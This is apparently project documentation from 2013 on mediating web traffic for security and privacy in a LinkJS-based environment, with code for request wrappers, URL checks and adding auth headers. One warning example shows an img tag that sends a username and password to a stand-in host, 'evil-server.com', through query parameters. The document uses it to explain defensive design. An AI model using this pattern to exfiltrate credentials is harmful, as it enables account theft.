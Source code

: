 Mediating Traffic for Security and Privacy
==========================================

2013 pfraze


## Overview

The safety of the user's information relies on smart traffic policies which are enforced by the environment. This document explains how to enforce those policies, and illustrates some tools and common patterns.


## Basics

Traffic mediation is accomplished by the 'request wrapper', which is minimally defined as follows:

```javascript
Environment.request = function(origin, request) {
	// pass the request to Link for fulfillment
	return Link.request(request);
};
```

All worker servers will use this function to issue requests; it's up to the in-document servers whether to use `Environment.request` rather than `Link.request`.


## Common Patterns and Tools

### Link.parse.url

`Link.parse.url` wraps [Stephen Levithan's parseUri](http://stevenlevithan.com/demo/parseuri/js/), a function which breaks a URL into its component pieces. Some common uses for this:

```javascript
var urld = Link.parse.url(request);

// trusted remote hosts
if (/https?/.test(urld.protocol) && urld.host == 'mysite.com') {
	return Link.request(request);
}

// local traffic
if (urld.protocol == 'httpl') {
	return Link.request(request);
}
```

### instanceof origin

You can check the prototype of the request origin to make decisions.

```javascript
if (origin instanceof WorkerServer) {
	// make decisions for user applications
} else {
	// make decisions for (presumably trusted) in-document applications
}
```


## Auth headers

You never want to let credentials leak back into user applications, as they may be able to pass that data out to a remote host.

 > Even a totally isolated worker can reach a remote server! For instance, what happens when they put `<img src="http://evil-server.com/picture.png?user=pfraze&password=foobar" />` in their HTML? Unless you have highly-restrictive [Content Security Policies](https://developer.mozilla.org/en-US/docs/Security/CSP), the data in the query parameters will escape.

For this reason, it is best to add Auth headers to requests in the environment. For instance:

```javascript
Environment.request = function(origin, request) {
	//...
	// add credentials to sessions
	if (MySessionManager.hasSession(origin, request)) {
		Link.headerer(request.headers).addAuth(MySessionManager.getSession(origin, request));
	}
	// ...
};
```


## Further Topics

 - [Using LinkJS, the HTTP wrapper](../lib/linkjs.md)
 - [Using the Environment API](lib/environment.md)
